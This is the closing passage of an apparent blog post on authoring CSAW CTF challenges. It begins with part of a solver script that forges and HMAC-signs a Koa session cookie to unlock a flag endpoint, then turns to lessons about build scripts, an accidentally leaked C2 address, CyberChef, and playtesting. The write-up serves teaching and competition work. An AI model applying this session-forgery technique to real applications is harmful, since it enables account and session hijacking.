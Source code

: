 ```python
                              "refreshToken": refreshToken, "tokenType": "Bearer", "expiresAt":  session_data_json['oauthState']['expiresAt'] + expiresIn}
print(f'session: {session_data_json}')
session_data = b'koa:sess=' + \
    base64.b64encode(json.dumps(session_data_json).encode())
hmac_signature = hmac.new(KOA_SESSION_KEY, session_data, hashlib.sha1).digest()
koa_sess_sig = base64.urlsafe_b64encode(
    hmac_signature).decode().rstrip('=').encode()
# put this into koa:sess.sig to get flag
cookie = session_data + b'; koa:sess.sig=' + koa_sess_sig
response = session.get(
    f'http://{HOST}:3001/buy_flagosaurus', headers={'Cookie': cookie})
print(response.content)
```

## Lessons Learned

After writing [my first CTF challenge](https://github.com/osirislab/CSAW-CTF-2022-Quals/tree/master/forensics/android_forensics_easy) last year, I received some feedback saying red herrings should be avoided since they only frustrate players. I tried to keep this in mind this year and I think the challenges I wrote were fairly straightforward. However, there is always something to take away from each experience. This year, I learned how great build/testing scripts are, to double check everything, the power of CyberChef, and the importance of testing. 

During quals, due to the hard-coded variables in the "dropped.dex" file, I found myself constantly looking back at reference pages to convert java files into dex files for Android. With the compeition near, I decided to write a build script to create this file and encode it to copy into the dropper apk quickly. This came in handy because we had to switch up our infrastructure right before the challenges were released and I was able to push the change just in time. 

Unfortunately, at the start of the CTF, I made a mistake and put the "c2" address in the CTFd challenge description, immediately reavealing the string containing the flag to competitors. Out of fairness to everyone, I decided to just leave this up. I think this potentially reduced the challenge difficulty since the first part of the challenge was to find this address, like the EFF researchers did with the real tor c2 address. In the end, I think most players solved the challenge correctly since the xor key was also not revealed until "dropped.dex" was decoded. However, one clever participant notified me that the entire challenge was solvable using CyberChef's "Magic" tool, which I was completely unaware of and amazed to learn about. Since then, I have been using it as a quick inital test for everything. In the end, while not a huge deal, this non-intentional solution to the challenge could have been avoided if I had just double-checked the description before the start of competition.

![cyberchef_magic]({{"../assets/2023-11-15-Writing_CTF_Challenges/cyberchef_magic.png" | relative_url }})

During finals, I was very happy to have a solver script ready when we reached the deployment phase. When deploying a web challenge, there are many different things that could affect the flow of your website, and when the main element of your challenge involves flow (oauth), many things could go wrong. While testing, we had some dns issues so we had to release the challenge with an ip address. Luckily, we were able to diagnose this efficiently without opening up Burpsuite and going throught the entire challenge for each new test.

I also learned how important it is to have good playtesters during Finals. (Thank you to our testers!) We received great feedback, which helped us make some last minute tweaks and better handle players' questions during the competition. I did also try to contribute to testing another challenge for the CTF. Unfortunately, it was too hard and I realized how much I still have to learn about hacking webapps.